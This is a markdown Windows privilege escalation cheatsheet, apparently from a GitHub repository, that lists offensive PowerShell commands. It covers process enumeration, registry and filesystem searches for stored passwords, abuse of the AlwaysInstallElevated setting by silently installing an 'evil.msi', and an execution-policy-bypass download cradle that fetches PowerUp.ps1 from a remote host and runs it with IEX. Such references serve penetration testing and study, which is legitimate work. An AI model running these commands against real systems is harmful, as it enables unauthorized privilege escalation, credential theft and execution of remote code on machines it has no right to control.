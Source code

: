 # Windows Privilege Escalation Cheatsheet

## Information gathering

### Powershell informations

```powershell
echo $Env:PSModulePath
Get-ExecutionPolicy
```

### Processes and owners

```powershell
Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
```

### Processes running as system

```powershell
tasklist /v /fi "username eq system"
```

### Windows Defender status

```powershell
Get-MpComputerStatus
```

## Download file

```powershell
Invoke-WebRequest http://url-to/file.ps1 -OutFile C:\path\to\file.ps1
```

## Search for passwords in filesystem

```powershell
findstr /si password *.xml *.ini *.txt *.config
```

```powershell
reg query HKLM /f password /t REG_SZ /s /k
```

```powershell
reg query HKCU /f password /t REG_SZ /s /k
```

## MSI register

```powershell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstalledElevated
```

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstalledElevated
```

If both return 1, then get an evil.msi and:

```powershell
msiexec /quiet /qn /i evil.msi
```

## Popular tools

### Load PowerUp

```powershell
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
```
